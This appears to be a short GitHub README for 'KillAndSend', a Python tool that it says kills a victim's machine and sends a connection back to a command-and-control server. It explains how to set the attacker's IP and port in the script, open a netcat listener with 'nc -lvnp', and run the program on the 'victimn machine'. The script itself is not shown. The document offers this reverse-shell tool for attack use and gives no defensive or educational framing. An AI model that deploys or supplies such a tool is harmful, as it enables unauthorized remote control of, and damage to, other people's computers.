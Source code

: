 # KillAndSend
The python program for killing a machine and sending a connection back to C2 or command and control server

# Setting up
 open the file 
	root@liunx:# nano killandsend.py
		(or ant text editor)
on lines 
	6 host = "127.0.0.1"
	7 port = 8080

change the host and port 
	6 host = "Your_IP"
	7 port = port_number_for_nc

make sure to run netcat 
	nc -lvnp port_number_for_nc

# Usage
on the victimn machine 

![Screenshot from 2024-08-19 16-34-06](https://github.com/user-attachments/assets/ec24090d-459e-4fcb-8af0-c65357c0ce60)
